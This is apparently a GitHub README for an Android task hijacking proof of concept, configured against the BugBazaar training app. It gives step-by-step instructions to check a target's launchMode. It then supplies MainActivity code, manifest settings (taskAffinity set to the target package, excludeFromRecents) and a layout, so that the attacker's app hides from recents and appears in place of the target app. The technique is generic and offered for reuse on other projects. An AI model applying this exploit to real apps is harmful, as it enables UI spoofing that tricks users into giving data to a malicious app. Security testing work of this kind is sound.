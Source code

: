 # Task Hijacking POC
This is a sample project which will help to exploit and create a POC for Task Hijacking Attack. This repository already have configured to exploit Task Hijacking vulnerability on BugBazaar application. Feel free to use this repo to create poc for your project.

### Steps to exploit Task Hijacking
1. Open Target application and make sure it is running properly. 
2. Decompile the apk of your target application and check "android:launchMode" value in AndroidManifest.xml file. If it's set to `singleTask` then application is exploitable.
3. Now create a new project in Android Studio or use this project.
4. In MainActivity.java, put following code:
```
    public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        moveTaskToBack(true);
    }

    @Override
    public void onResume(){
        super.onResume();
        setContentView(R.layout.activity_main);
    }
}
```
5. In AndroidManifest.xml file, put following line of code in <application> element. Make sure to replace package name with your target app package name.
  `android:taskAffinity="com.TargetApp.PackageName"`
	
6. Replace MainActivity declaration with following line of code:
	`<activity android:name=".MainActivity" android:launchMode="singleTask" android:excludeFromRecents="true" android:exported="true">`

7. Replace activity_main.xml layout content with following content:
```
<?xml version="1.0" encoding="utf-8"?>
<LinearLayout xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
    android:orientation="vertical"
    android:gravity="center"
    tools:context=".MainActivity">

    <TextView
        android:layout_width="350dp"
        android:layout_height="88dp"
        android:text="Attacker's Application"
        android:textSize="35dp"
        android:textStyle="bold"
        android:gravity="center"></TextView>

    <TextView
        android:layout_width="350dp"
        android:layout_height="88dp"
        android:text="Task Hijacking Demo"
        android:textSize="20sp"
        android:textStyle="bold"
        android:gravity="center"></TextView>

</LinearLayout>

```
8. Run this application inside the same device where Target App is installed.
9. Our app will open and close quickly. It will not also can be seen in recent apps.
10. Now open Target application and you will see instead, target application, our malicious app will be opened.
